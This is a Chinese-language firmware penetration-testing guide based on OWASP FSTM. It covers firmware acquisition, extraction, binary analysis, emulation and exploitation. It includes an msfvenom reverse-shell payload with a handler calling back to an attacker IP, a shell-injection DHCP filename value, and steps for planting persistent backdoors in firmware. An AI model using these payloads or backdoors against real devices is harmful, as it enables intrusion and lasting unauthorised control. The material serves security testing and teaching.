

# 安全性测试和固件的逆向分析



我们基于 FSTM 进行测试流程如下：

| id | 阶段 | 描述 |
| :--- | :--- | :--- |
| 1 | 信息收集 | 固件的相关技术文档的详细使用说明 |
| 2 | 获取固件 | 使用本文中介绍的多种办法获取固件 |
| 3 | 分析固件 | 固件的功能、特性 |
| 4 | 提取文件系统 | 从固件中获取文件系统 |
| 5 | 分析文件系统内容 | 静态分析提取的文件系统的配置文件和二进制文件中的漏洞 |
| 6 | 仿真固件 | 模拟固件文件和组件 |
| 7 | 动态分析 | 根据固件和应用程序接口进行动态测试 |
| 8 | 运行时分析 | 在设备运行时分析编译的二进制文件 |
| 9 | 二进制利用 | 利用上述手段发现的漏洞实现命令执行 |

### 0x01：信息搜集

可搜集与固件相关如下基础信息：

* 基于的CPU架构
* 操作系统平台
* 引导程序配置
* 硬件原理图
* 数据表
* 代码行估计
* 源代码存储库位置
* 第三方组建
* 开源许可证（GPL）
* 变更日志
* FCC ID
* 设计和数据流程图
* 威胁建模
* 渗透测试报告之类
* 一些测试平台的测试（Jira、错误赏金平台 bugcrowd 或 hackerone ）

搜集方法：

* 利用开发团队及其内部产品线获取准确和最新的数据，及其项目设计原理和应用的安全设置，进而判断出与安全风险有关的信息和某些特定功能点。
* 开源情报（ `OSINT：Open source intelligence` ）技术手段来获取数据

在搜集信息中遇到开源软件的处理方式：

* 下载开源软件存储库，并根据代码库执行手动和自动静态分析
* 开源软件有其自身的静态分析工具 ，Example：
  * [Coverity](https://scan.coverity.com/) 对 [Das U-Boot](http://www.denx.de/wiki/U-Boot/WebHome)进行的分析

 


 


* semmle的[LGTM](https://lgtm.com/#explore)对Dropbear的分析：

  


  


获取如上信息后便可进行粗略的威胁建模：标识出可攻击功能点和影响范围，方便测试时进行漏洞点的贯穿使用。

### 0x02：获取固件

* 直接从开发团队、制造商/供应商或用户获取
* 使用制造商提供的项目从头编译
* 从供应商的support网站获取
* 从共享平台（ `Dropbox`、`box`、`Google drive`）根据二进制文件扩展名获取
  * 从用户为了解决问题而上传固件到论坛、博客，或官方评论中获取
* 设备更新进行中间人（`MITM`）获取
* 云提供商存储位置（如：`AWS`，全称`Amazon Web Services S3 buckets`）下载构建版本
* 通过 `UART`、`JTAG`、`PICit`等直接从硬件中提取
* 嗅探“硬件组件中的串行通信”中的更新服务器请求
* 通过移动应用程序中的硬编码接口
* 将固件从引导加载程序（如：U-boot ）转储到闪存或通过tftp的网络转储
* 从主板卸下闪存芯片（如：SPI ）或 MCU，以进行离线分析和数据提取
  * 需要相应的芯片编辑器来存储 flash/MCU

### 0x03：分析固件

获取固件后需要分析其特征信息：固件文件类型、潜在的根文件元数据、编译基于的平台，使用 `binutils` 分析过程如下：

```text
file <bin>  
strings  
strings -n5 <bin>  
binwalk <bin>  
hexdump -C -n 512 <bin> > hexdump.out  
hexdump -C <bin> | head # might find signatures in header
```

若使用上述方法未提取出有用信息，可能由于以下原因：

* 二进制文件可能是`Bare Metal`
* 二进制文件可能仅适用于带有自定义文件系统的实时操作系统（ `RTOS` ）平台
* 二进制文件可能是加密的

判断二进制文件是否是加密：

* 通过命令：`binwalk -E <bin>` ，判断其熵
  * 低熵：不太可能被加密
  * 高熵：可能被加密（或以某种方式压缩）
* 也可以使用其他程序或在线程序（如：`binvis`）
  * [https://code.google.com/archive/p/binvis/](https://code.google.com/archive/p/binvis/)
  * [https://binvis.io/\#/](https://binvis.io/#/)

### 0x04：提取文件系统

* 固件：一个二进制文件的压缩包，文件系统是其中的一个组件，存储在二进制文件的特定偏移地址中，且有一定大小。
* 文件系统类型：squashfs , ubifs , romfs , rootfs , jffs2 , yaffs2 , cramfs , initramfs

为了分析固件内部相关文件系统数据、未编译代码和设备配置，需使用以下手动和自动方法提取固件文件系统：

* 偏移量和文件系统大小信息获取：
  * 使用hexdump和grep等工具搜索特征信息
    * 判断文件系统开始位置，如：Squashfs文件系统
      * 通过hexdump查找 `"hsqs"` 字符串，`hexdump -C binary ｜ grep -i 'hsqs'`
    * 使用dd命令将从该地址开始到文件末尾的内容全部转储下来
      * dd if=binary bs=1 skip=92588 of=rt-n300-fs
    * 通过如上步骤，从二进制文件中获取到文件系统，使用 `unsquashfs` 查看整个文件系统
* binwalk
  * `binwalk -ev <bin>`，提取出的文件保存：`_binaryname/filesystemtype/`；
  * 若是文件的标头没有魔术字节 ，需使用 `binwalk` 查找文件系统的偏移量，然后从二进制文件中分割压缩的文件系统，最后再手动提取出来。
    * 分割

      ```text
      dd if=DIR850L_REVB.bin bs=1 skip=1704084 of=dir.squashfs # or
      dd if=DIR850L_REVB.bin bs=1 skip=$((0x1A0094)) of=dir.squashfs
      ```

    * 提取

      ```text
      For squashfs：
              unsquashfs dir.squashfs
      CPIO archive files：
              cpio -ivd --no-absolute-filenames -F <bin>
      For jffs2 filesystems：
              jefferson rootfsfile.jffs2
      For ubifs filesystems with NAND flash：
              ubireader_extract_images -u UBI -s <start_offset> <bin>、ubidump.py <bin>
      ```

### 0x05：分析文件系统内容

#### 手动分析

静态分析文件系统可从如下方面入手：

* 不安全网络守护程序，如：telnetd（有时会伪装成重命名二进制文件）
* 硬编码凭证（用户名、密码、API密钥、SSH密钥和后门变体）
* 硬编码的API端点和后端服务器详细信息
* 更新可用作入口点的服务器功能
* 查看未编译的代码并启动脚本以执行远程代码
* 提取已编译的二进制文件，使用反汇编程序脱机分析

同时，此过程中分析的结果，可为动态分析做基础准备。

#### 自动分析：firmwalker

`firmwalker` 分析内容范围如下：

* etc/shadow and etc/passwd
* etc/ssl
* 与 ssl 相关的文件，如：.pem .crt 等
* 搜索配置文件
* 寻找脚本文件
* 搜索其他 .bin 文件
* 查找 admin、password、remote、AWS key 等关键字
* 搜索物联网设备上使用的通用Web服务器
* 搜索常见的二进制文件，如：ssh、tftp、dropbear 等
* 搜索禁止的C函数
* 搜索常见的易受命令注入攻击的功能
* 搜索URL、电子邮件、IP地址
* ...

自动固件分析工具：`firmwalker`，`Aaron Guzman` 在原生代码基础上添加了一些其他的检查，可参照 [firmwalker](https://github.com/scriptingxss/firmwalker)。

**案例：在 OWASP IOTGoat 中使用 firewalker分析**

`firmwalk` 分析文件系统需使用绝对路径：

​ `./firmwalker.sh /home/embedos/firmware/_IoTGoat-rpi-2.img.extracted/squashfs-root/`

分析结果如下：


分析结果存储在 `/data/` 目录下的两个文件：`firmwalker.txt` 和 `firmwalkerappsec.txt`，需手动检查这些文件。

#### 自动分析：FACT

FACT 固件分析比较工具包分析内容如下：

* 标识软件组件（如：操作系统、CPU体系结构和第三方组件）及其关联的版本信息
* 从映像中提取固件文件系统
* 检测证书和私钥
* 检测CWE
* 基于提要和签名的漏洞检测
* 基于静态行为分析
* 固件版本和文件的比较（差异）
* 使用QEMU对文件系统中的二进制文件进行用户仿真
* 缓冲区溢出防护机制 NX, DEP, ASLR, stack canaries, RELRO, and FORTIFY\_SOURCE
* REST API
* ...

**案例：在EmbedOS 中使用FACT分析**

```text
cd ~/tools/FACT_core
sudo ./start_all_installed_fact_components
```

浏览器访问：[http://127.0.0.1:5000](http://127.0.0.1:5000) ，

 


将固件上传到FACT进行分析（可以将带有文件系统的完整固件）

  


根据给FACT硬件资源，扫描时间会相应不同

 


FACT分析结果

  


#### 二进制文件分析：

* 可使用工具： `IDA Pro`、`Ghidra`、`Hopper`、`Capstone` 或 `binary Ninja` 进行分析。
  * 使用Ghidra对二进制文件“shellback”的分析如下

 


* 二进制文件选取及分析内容：可以选择从 `FACT` 获取的可疑内容，或针对漏洞利用点进行查找分析，如：
* 系统调用、字符串、函数列表、易产生内存损坏，对 `system()` 或类似函数调用，等。
* 分析二进制文件的常见功能点
  * 是否启用 `Stack canaries`（堆栈保护机制）

    ```text
    readelf -aW bin/*| grep stack_chk_fail
    mips-buildroot-linux-uclibc-objdump -d bin/binary | grep stack_chk_fail
    ```

  * 是否启用 `Position-independent executable (PIE)` 地址无关可执行文件
    * PIE disabled

      ```text
      readelf -h <bin> | grep -q 'Type:[[:space:]]*EXEC'
      ```

    * PIE enabled

      ```text
      readelf -h <bin> | grep 'Type:[[:space:]]*DYN'
      ```
  * DSO（dynamic shared object）动态共享目标文件

    ```text
    readelf -d <bin> | grep -q 'DEBUG'
    ```

  * Symbols 动态链接库和符号

    ```text
    readelf --syms <bin>
    nm <bin>
    ```

  * 可识别的字符串
    * -el 指定 16 位宽的小端字符（如：UTF-16）
    * -eb 使用大端
    * 将任何大于 16 的 ASCII 字符串打印到 stdout
    * -t 将返回文件中字符串的偏移量
    * -tx 以十六进制格式返回，-td 以八进制和十进制表示 T-to
    * 与十六进制编辑器进行交叉引用，或字符串在文件中的位置
  * 是否启用 Non-executable \(NX\) （应该是一种数据保护 DEP）

    ```text
    readelf -lW bin/<bin>| grep STACK
    ```

    判断堆栈是否可执行，`E` 代表可执行：`GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`

    ```text
    execstack bin/*
    bin/ash
    bin/busybox
    ```

  * RELRO \( RELocation Read-Only，只读重定位\)（一种用于加强对二进制数据段的保护技术）配置
    * 完整 RELRO

      ```text
      readelf -d binary | grep BIND_NOW
      ```

    * 部分 RELRO

      ```text
      readelf -d binary | grep GNU_RELRO
      ```
* 自动检查上述二进制属性的脚本 [checksec.sh](https://github.com/slimm609/checksec.sh)，如下示例：

```text
 ./checksec --file=/home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/bin/busybox

./checksec --file=/home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/usr/bin/shellback
```

  


对于 Microsoft 二进制文件（EXE、DLL），使用 [PESecurity](https://github.com/NetSPI/PESecurity) 检查 `ASLR`, `DEP`, `SafeSEH`, `StrongNaming`, `Authenticode`, `Control Flow Guard` 和 `HighEntropyVA`。

### 0x06：仿真固件

为了确定及验证上面的详细信息、线索、潜在的漏洞，必需模拟固件及其封装的二进制文件。

如下列出仿真固件的方法：

* 部分仿真（`user mode`）—仿真从固件提取的文件系统中的二进制文件：`/usr/bin/shellback`
* 完整的系统仿真—完整的固件仿真和利用伪造的`NVRAM`启动配置
* 由于硬件或体系结构的依赖性，`user mode` 或 `system mode` 可能无法仿真固件成功。在这种情况下，可以将根文件系统或特定二进制文件传输到与目标固件的架构和字节序匹配的物理设备中进行测试，除了物理设备外，也可以使用与目标固件相同体系结构或字节序的预构件虚拟机。

#### 部分仿真（ user mode ）

* 获取目标的 CPU 架构和字节序，然后选择适当的 QEMU 仿真二进制文件
  * CPU 架构获取：

    ```text
    binwalk -Y <bin> 
    readelf -h <bin>
    ```

    `el` 代表： `little endian` `eb` 代表：`big endian`

  * 字节序的获取：
    * 使用 binwalk 识别打包的固件二进制文件（不是提取出的文件系统中的二进制文件）

      ```text
      binwalk -Y UPG_ipc8120p-w7-M20-hi3516c-20160328_165229.ov
      ```
* 确定了 CPU 的体系结构和字节序后，找适用的 QEMU 二进制文件来执行部分仿真（从文件系统中提取出的二进制文件）
  * QEMU 二进制文件通常所在目录：`/usr/local/qemu-arch` 或`/usr/bin/qemu-arch`。
  * 将 QEMU 二进制文件复制到提取的文件系统的根目录中

    ```text
    cd /home/embedos/firmware/_DIR850L_REVB_FW207WWb05_h1ke_beta1.decrypted.extracted/squashfs-root 
    cp /usr/bin/qemu-arm-static .
    ```

  * 执行 ARM 二进制文件（或其他的体系结构）使用 QEMU 和 chroot 进行仿真

    ```text
    sudo chroot . ./qemu-arch <binarytoemulate>
    ```

**Example：**

1. busybox

```text
sudo chroot . ./qemu-arm-static bin/busybox ls
```

1. shellback 开启5515上的侦听服务

```text
sudo chroot . ./qemu-arm-static usr/bin/shellback
```

​ 使用 netcat 尝试连接该服务

```text
sudo lsof -i :5515
nc -nv 127.0.0.1 5515
```

1. MIPS CGI 二进制文件，向该文件发出POST请求

```text
sudo chroot . ./qemu-mips-static -E REQUEST_METHOD="POST" -E REQUEST_URI=<request_uri> -E REMOTE_ADDR=<ip_addr> -E HTTP_COOKIE=<custom_cookie> -g <port> <path to cgi binary>
```

通过上述手段模拟了目标二进制文件，可以使用其应用程序和网络接口，与其进行交互。

#### 全系统仿真（ system mode ）

使用自动化工具来进行固件的完整仿真

自动化工具：`firmadyne`、固件分析工具包、ARM-X 固件仿真框架，这些工具实质上是 QEMU 和其他环境功能 （如：nvram ）的包装器。

* [firmware-analysis-toolkit](https://github.com/attify/firmware-analysis-toolkit)
* [armx](https://github.com/therealsaumil/armx/)
* [firmadyne](https://github.com/firmadyne/firmadyne)
* [qltool](https://github.com/qilingframework/qiling#qltool)

需注意：固件中包含不常见的压缩文件系统或不支持的体系结构，可能需要修改这些工具

### 0x07：动态分析

设备在正常运行或者在仿真环境中运行中的动态测试，此阶段的测试可能会由于项目和访问级别有所差异。

**分析手段：**

* 篡改引导程序配置
* Web 和 API 测试
* 模糊测试（网络和应用程序服务）
* 使用各种工具集进行的主动扫描以获取提升的访问权限或代码执行
  * `Burp Suite`
  * `OWASP ZAP`
  * `Commix`
  * `Fuzzers such as - American fuzzy loop (AFL)`、
  * Network and protocol fuzzers such as - [Mutiny](https://github.com/Cisco-Talos/mutiny-fuzzer), [boofuzz](https://github.com/jtpereyda/boofuzz), and [kitty](https://github.com/cisco-sas/kitty)
  * `Nmap`
  * `NCrack`
  * `Metasploit`
  * ...

#### 嵌入式Web应用程序测试

**检查方向：**

* 诊断和故障排除页面可能存在命令注入
* 验证和授权方案对整个固件中的应用程序和操作系统平台的相同框架进行验证
* 默认的用户名、密码
* 在网页执行目录遍历或文件读取，以识别调试或测试功能
* 在 SOAP/XML 和 API 传输中的输入检查 ，如：XSS 和 XXE
* 跟踪观察应用程序中的参数查看异常点和堆栈溢出点
  * 常见的 C/C++ 漏洞、常见的嵌入式 Web 应用程序的有效负载，如：内存损坏漏洞、格式字符串缺陷、整数溢出

#### 引导加载程序测试

修改设备的引导加载程序时，可以进行如下操作：

* 在引导过程中加 “0”、空格、或其他标识的“魔术代码”来获取 shell
* 修改配置以执行 shell 命令，如：引导参数末尾 “init=/bin/sh”

```text
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3
mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
```

* 设置一个 tftp 服务器，从本地通过网络加载远程图像（前提是设备有网络访问权限）

```text
#setenv ipaddr 192.168.2.2 #local IP of the device
#setenv serverip 192.168.2.1 #tftp server IP
#saveenv
#reset
#ping 192.168.2.1 #check if network access is available
#tftp ${loadaddr} uImage-3.6.35 #loadaddr takes two arguments: the address to load the file into and the filename of the image on the TFTP server
```

* 使用 ubootwrite.py 编写 uboot-image 并且安装修改过的固件来获取 root
* 查看启用的调试功能，如：详细记录、加载任意内核、从不受信任的来源引导
* 使用警告：使用引脚连接主板，观察设备启动顺序，在内核解压缩之前，将连接主板的引脚短路或者连接到 SPI 闪存芯片上的数据引脚（DO）
* 使用警告：使用引脚连接主板，观察设备启动顺序，在内核解压缩之前，在 U-boot 对 UBI 映像解压缩时，将连接主板的引脚短路或连接到 NAND 闪存芯片的引脚 8 和 9
  * 在短接引脚之前请查看 NAND 闪存芯片的数据表
* 使用恶意参数配置恶意 DHCP 服务器作为设备在 PXE 引导期间提取的输入
  * 使用 Metasploit DHCP 辅助服务器，进行命令注入，比如修改参数 `FILENAME` 为 `a";/bin/sh;#`，来测试设备启动过程的输入验证

#### 固件完整性测试

尝试上传自定义固件或编译过的二进制文件，来检测完整性或签名验证漏洞。

可设置后门点：启动脚本引用、某些链接、依赖不受信任的安装位置（如：SD 卡）或用位于根文件系统外部存储数据的 flash 的代码时触发。

使用以下步骤编译在启动中的后门 shell ：

1. 使用固件修改包（`FMK：firmware-tool-kit`）提取固件
2. 确定目标固件架构和字节序
3. 使用 Buildroot 构件交叉编译器或使用其他适合的环境
4. 使用交叉编译器构件后门
5. 将后门复制到解压缩的固件 `/usr/bin` 中
6. 将适当的 QEMU 二进制文件复制到固件rootfs
7. 使用 chroot 和 QEMU 模拟后门
8. 使用 netcat 连接后门
9. 从 rootfs 中删除 QEMU 二进制文件
10. 使用FMK重新包装修改后的固件
11. 使用固件工具分析包（ FAT ）进行仿真并使用 netcat 连接到目标后门 ip、端口测试后门固件

若在动态分析后，通过操纵引导加载程序或其他的硬件安全测试手段获得了root shell，尝试执行预编译恶意二进制文件（即在二进制文件中植入程序或反向 shell），可通过使用自动化的有效载荷或工具（ C&C ）框架进行命令执行和控制，比如使用 Metasploit 框架和 `msfvenom`，如下是操作步骤：

1. 确定目标固件架构和字节序
2. 使用 msfvenom 生成有效载荷，-p ：payload、攻击者ip：LHOST=、攻击者监听端口：LPORT=、有效载荷的文件类型：-f、结构体系：--arch、平台：--platform linux or windows、输出文件保存：-o

```text
msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux
```

1. 将有效载荷传输到受攻击的设备（操作举例：本地运行Web服务器，然后使用 `wget/curl` 上传到目标文件系统中），确认有效载荷有执行权限
2. 使用 Metasploit 接收反弹回的 shell 之前的设备

```text
set payload linux/armle/meterpreter_reverse_tcp
set LHOST 192.168.1.245 #attacker host IP
set LPORT 445 #can be any unused port
set ExitOnSession false
exploit -j -z
```

1. 在受攻击的设备中执行 meterpreter reverse
2. 查看 meterpreter sessions
3. 进行后渗透

最后，尽可能的在启动脚本中设置对设备持久访问的后门，保证重新启动后也有设备的访问控制权

### 0x08：运行时分析

设备在正常运行或在仿真环境中运行时，对正在运行的进程或二进制文件进行调试。如下是分析步骤：

1. `sudo chroot . ./qemu-arch -L <optionalLibPath> -g <gdb_port> <binary>`
2. 使用gdb-multiarch或IDA进行调试
3. 为步骤4中的功能点设置断点，如： `memcpy`, `strncpy`, `strcmp`，等
4. 确认漏洞点，比如：通过发送较大的有效载荷来识别溢出或进程崩溃点

一些可能使用的工具：

* gdb-multiarch
* [Peda](https://github.com/longld/peda)
* Frida
* ptrace
* strace
* IDA Pro
* Ghidra
* Binary Ninja
* Hopper

### 0x09：漏洞利用

通过上面阶段的测试识别出漏洞之后，需使用PoC在真实环境中进行验证。编写漏洞利用代码需要掌握低级语言（如：ASM、C/C++、shellcode 等）的编程及了解一些目标体系结构（如：MIPS、ARM、x86等）。

在遇到二进制缓解（保护）机制（eg：NX、DEP、ASLR等）时，需要其他技术进行恶意攻击，比如：

* 面向返回的编程：ROP（Return-oriented Programming），ROP 允许攻击者通过链接目标进程或二进制代码中现有的代码实施恶意攻击，利用ROP 的漏洞举例：通过 ROP 链进行缓冲区溢出。可借助工具 Capstone's gadget finder或者 [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) 。

相关方面知识可参考文档：

* [https://azeria-labs.com/writing-arm-shellcode/](https://azeria-labs.com/writing-arm-shellcode/)
* [https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/](https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/)

### 固件和二进制文件分析工具

* [Firmware Analysis Comparison Toolkit\(FACT\)](https://github.com/fkie-cad/FACT_core)
* [FWanalyzer](https://github.com/cruise-automation/fwanalyzer)
* [Firmwalker](https://github.com/craigz28/firmwalker)
* [Firmware Modification Kit](https://code.google.com/archive/p/firmware-mod-kit/)
* [Firmadyne](https://github.com/firmadyne/firmadyne)
* [ByteSweep](https://gitlab.com/bytesweep/bytesweep)
* [Binwalk](http://binwalk.org/)
* [Flashrom](https://www.flashrom.org/Flashrom)
* [Openocd](http://openocd.org/)
* [Angr binary analysis framework](https://github.com/angr/angr)
* [Binary Analysis Tool](http://www.binaryanalysis.org/en/home)
* [Checksec.sh](https://github.com/slimm609/checksec.sh)
* [CHIPSEC](https://github.com/chipsec/chipsec)
* [Qiling Advanced Binary Emulation Framework](https://github.com/qilingframework/qiling)
* [Triton dynamic binary analysis \(DBA\) framework](https://triton.quarkslab.com/)

### 用于练习的固件项目

* [OWASP IoTGoat](https://github.com/OWASP/IoTGoat)
* [The Damn Vulnerable Router Firmware Project](https://github.com/praetorian-code/DVRF)
* [Damn Vulnerable ARM Router \(DVAR\)](https://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html)
* [ARM-X](https://github.com/therealsaumil/armx#downloads)
* [Azeria Labs VM 2.0](https://azeria-labs.com/lab-vm-2-0/)

### 参考



**License**

[Creative Commons Attribution Share Alike 4.0 International](https://github.com/scriptingxss/owasp-fstm/blob/master/License.md)


